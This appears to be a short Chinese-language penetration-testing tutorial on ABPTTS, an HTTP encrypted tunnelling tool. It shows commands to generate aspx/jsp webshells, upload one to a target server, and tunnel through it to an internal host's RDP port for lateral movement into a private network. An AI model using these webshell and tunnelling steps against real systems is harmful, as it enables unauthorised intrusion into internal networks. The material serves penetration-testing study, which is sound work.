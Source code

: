 > 原文：[http://book.iwonder.run/内网渗透/内网穿透/ABPTTS/1.html](http://book.iwonder.run/内网渗透/内网穿透/ABPTTS/1.html)

## 介绍

Abptts 是一款基于 python2.7 的 http 加密隧道工具，Abptts 能做的很多：

1.  通过 http 加密隧道转发至目标内网下指定的单个 TCP 端口

2.  通过 http 加密隧道同时转发至目标内网下的多台机器上的多个 tcp 端口

3.  把 ssh 隧道包裹在 http 加密隧道中传递，对目标二级内网进行穿透

#### 缺点：不支持 PHP

## 使用流程

```
git clone https://github.com/nccgroup/ABPTTS.git
pip install pycrypto
pip install httplib2
cd ABPTTS
python abpttsfactory.py ‐o webshell 
```

在 webshell 目录里有 aspx、jsp 等脚本

将对应格式的脚本上传至测试机

```
python abpttsclient.py -c webshell\config.txt -u "http://www.0-sec.org/abptts.aspx" -f 127.0.0.1:1112/127.0.0.1:3389
mstsc 127.0.0.1:1112 
```

设置本地代理 访问内网

